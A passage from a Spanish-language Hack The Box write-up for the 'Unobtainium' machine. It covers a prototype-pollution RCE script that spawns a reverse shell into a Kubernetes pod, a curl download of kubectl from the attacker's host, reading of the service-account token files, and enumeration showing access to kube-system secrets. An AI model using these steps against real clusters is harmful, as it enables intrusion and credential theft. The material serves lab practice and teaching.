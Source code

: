 > [insidePollutionRCE.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/unobtainium/insidePollutionRCE.sh)

Les dejo el script por si quieren jugar con él, la explotación es totalmente igual a la que hicimos, solo que en este caso jugamos con instrucciones de `bash`.

> **Tienen que validar que la IP que pongan exista, ya que se generan aleatoriamente y pueda que antes de un reset exista la `172.17.0.5` pero después no.**

(El script genera de una vez una **Reverse Shell**)

Lo movemos a la máquina, nos ponemos en escucha y ejecutamos de nuevo contra el servidor `http://172.17.0.5:3000`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_devnodeSH_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

PERFECTISIMOOOOOOOOOOOOOOOOOOOOOOO, tamos ahora en uno de los contenedores del **pod** `dev`, que lindura :3

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

...

## Encontramos token -secreto- del <u>admin</u> y obtenemos interacción total con <u>Kubernetes</u> [📌](#lateral-tokenadmin-found) {#lateral-tokenadmin-found}

Enumerando el sistema no encontramos nada distinto a los contenedores de `webapp`...

Contamos de nuevo con los archivos para hablar con la API**:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/var/run/secrets/kubernetes.io/serviceaccount$ ls  
ca.crt  namespace  token
```

Así que podemos intentar ver si ahora tenemos algún permiso distinto o si descartamos que sea por acá. 

En vez de jugar con `cURL` subamos "`kubito`" que ya sabemos que vamos a obtener la misma info pero con un output más estético :D

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ curl http://10.10.14.146:8000/kubectl -o kubito
```

Jugando, jugando y jugando encontramos algo destino al probar de nuevo el subcomando `auth can-i` contra el **namespace** `kube-system`:

```bash
root@devnode-deployment-cd86fb5c-mvrfz:/tmp/testao$ ./kubito auth can-i --list -n kube-system
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
...
```
